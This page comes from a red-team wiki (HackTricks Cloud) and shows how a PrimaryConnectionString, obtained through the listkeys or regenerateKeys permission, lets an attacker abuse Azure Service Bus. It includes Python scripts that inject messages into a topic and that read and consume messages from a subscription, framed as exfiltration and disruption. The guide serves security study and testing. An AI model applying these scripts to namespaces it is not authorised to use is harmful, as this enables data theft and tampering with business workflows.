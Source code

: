 # Az - Service Bus Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Service Bus

For more information check:

{% content-ref url="../az-services/az-servicebus-enum.md" %}
[az-servicebus-enum.md](../az-services/az-servicebus-enum.md)
{% endcontent-ref %}


### Send Messages. Action: `Microsoft.ServiceBus/namespaces/authorizationRules/listkeys/action` OR `Microsoft.ServiceBus/namespaces/authorizationRules/regenerateKeys/action`

You can retrieve the `PrimaryConnectionString`, which acts as a credential for the Service Bus namespace. With this connection string, you can fully authenticate as the Service Bus namespace, enabling you to send messages to any queue or topic and potentially interact with the system in ways that could disrupt operations, impersonate valid users, or inject malicious data into the messaging workflow.

{% code overflow="wrap" %}
```python
#You need to install the following libraries
#pip install azure-servicebus
#pip install aiohttp
#pip install azure-identity

import asyncio
from azure.servicebus.aio import ServiceBusClient
from azure.servicebus import ServiceBusMessage

# Constants
NAMESPACE_CONNECTION_STR = "<PrimaryConnectionString>"
TOPIC_NAME = "<TOPIC_NAME>"

# Function to send a single message to a Service Bus topic
async def send_individual_message(publisher):
    # Prepare a single message with updated content
    single_message = ServiceBusMessage("Hacktricks-Training: Single Item")
    # Send the message to the topic
    await publisher.send_messages(single_message)
    print("Sent a single message containing 'Hacktricks-Training'")

# Function to send multiple messages to a Service Bus topic
async def send_multiple_messages(publisher):
    # Generate a collection of messages with updated content
    message_list = [ServiceBusMessage(f"Hacktricks-Training: Item {i+1} in list") for i in range(5)]
    # Send the entire collection of messages to the topic
    await publisher.send_messages(message_list)
    print("Sent a list of 5 messages containing 'Hacktricks-Training'")

# Function to send a grouped batch of messages to a Service Bus topic
async def send_grouped_messages(publisher):
    # Send a grouped batch of messages with updated content
    async with publisher:
        grouped_message_batch = await publisher.create_message_batch()
        for i in range(10):
            try:
                # Append a message to the batch with updated content
                grouped_message_batch.add_message(ServiceBusMessage(f"Hacktricks-Training: Item {i+1}"))
            except ValueError:
                # If batch reaches its size limit, handle by creating another batch
                break
        # Dispatch the batch of messages to the topic
        await publisher.send_messages(grouped_message_batch)
    print("Sent a batch of 10 messages containing 'Hacktricks-Training'")

# Main function to execute all tasks
async def execute():
    # Instantiate the Service Bus client with the connection string
    async with ServiceBusClient.from_connection_string(
        conn_str=NAMESPACE_CONNECTION_STR,
        logging_enable=True) as sb_client:
        # Create a topic sender for dispatching messages to the topic
        publisher = sb_client.get_topic_sender(topic_name=TOPIC_NAME)
        async with publisher:
            # Send a single message
            await send_individual_message(publisher)
            # Send multiple messages
            await send_multiple_messages(publisher)
            # Send a batch of messages
            await send_grouped_messages(publisher)

# Run the asynchronous execution
asyncio.run(execute())
print("Messages Sent")
print("----------------------------")

```
{% endcode %}

### Recieve Messages. Action: `Microsoft.ServiceBus/namespaces/authorizationRules/listkeys/action` OR `Microsoft.ServiceBus/namespaces/authorizationRules/regenerateKeys/action`
You can retrieve the PrimaryConnectionString, which serves as a credential for the Service Bus namespace. Using this connection string, you can receive messages from any queue or subscription within the namespace, allowing access to potentially sensitive or critical data, enabling data exfiltration, or interfering with message processing and application workflows.

{% code overflow="wrap" %}
```python
#You need to install the following libraries
#pip install azure-servicebus
#pip install aiohttp
#pip install azure-identity

import asyncio
from azure.servicebus.aio import ServiceBusClient

NAMESPACE_CONNECTION_STR = "<PrimaryConnectionString>"
TOPIC_NAME = "<TOPIC_NAME>"
SUBSCRIPTION_NAME = "<TOPIC_SUBSCRIPTION_NAME>" #Topic Subscription

# Function to receive and process messages from a Service Bus subscription
async def receive_and_process_messages():
    # Create a Service Bus client using the connection string
    async with ServiceBusClient.from_connection_string(
        conn_str=NAMESPACE_CONNECTION_STR,
        logging_enable=True) as servicebus_client:

        # Get the Subscription Receiver object for the specified topic and subscription
        receiver = servicebus_client.get_subscription_receiver(
            topic_name=TOPIC_NAME, 
            subscription_name=SUBSCRIPTION_NAME, 
            max_wait_time=5
        )

        async with receiver:
            # Receive messages with a defined maximum wait time and count
            received_msgs = await receiver.receive_messages(
                max_wait_time=5, 
                max_message_count=20
            )
            for msg in received_msgs:
                print("Received: " + str(msg))
                # Complete the message to remove it from the subscription
                await receiver.complete_message(msg)

# Run the asynchronous message processing function
asyncio.run(receive_and_process_messages())
print("Message Receiving Completed")
print("----------------------------")
```


## References

* https://learn.microsoft.com/en-us/azure/storage/queues/storage-powershell-how-to-use-queues
* https://learn.microsoft.com/en-us/rest/api/storageservices/queue-service-rest-api
* https://learn.microsoft.com/en-us/azure/storage/queues/queues-auth-abac-attributes
* https://learn.microsoft.com/en-us/azure/service-bus-messaging/service-bus-python-how-to-use-topics-subscriptions?tabs=passwordless
* https://learn.microsoft.com/en-us/azure/role-based-access-control/permissions/integration#microsoftservicebus

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
